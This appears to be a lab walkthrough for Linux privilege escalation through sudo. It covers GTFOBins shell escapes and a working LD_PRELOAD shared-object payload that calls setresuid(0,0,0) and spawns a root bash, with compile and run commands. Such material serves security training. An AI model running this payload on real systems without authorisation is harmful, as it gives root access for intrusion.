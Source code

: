 ## Sudo - Shell Escape Sequences 

1. List the programs which sudo allows your user to run:

```
sudo -l
```

2. Visit GTFOBins (https://gtfobins.github.io) and search for some of the program names. If the program is listed with "sudo" as a function, you can use it to elevate privileges, usually via an escape sequence.

3. Choose a program from the list and try to gain a root shell, using the instructions from GTFOBins.

## Sudo - Environment Variables 

Sudo can be configured to inherit certain environment variables from the user's environment.

1. Check which environment variables are inherited (look for the env_keep options):

```
sudo -l
```
LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.

2. Create the preload.c that contains the following:

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}

```

3. Create a shared object using the code located at /home/user/tools/sudo/preload.c:

```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```
4. Run one of the programs you are allowed to run via sudo (listed when running sudo -l), while setting the LD_PRELOAD environment variable to the full path of the new shared object:

```
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```

A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.
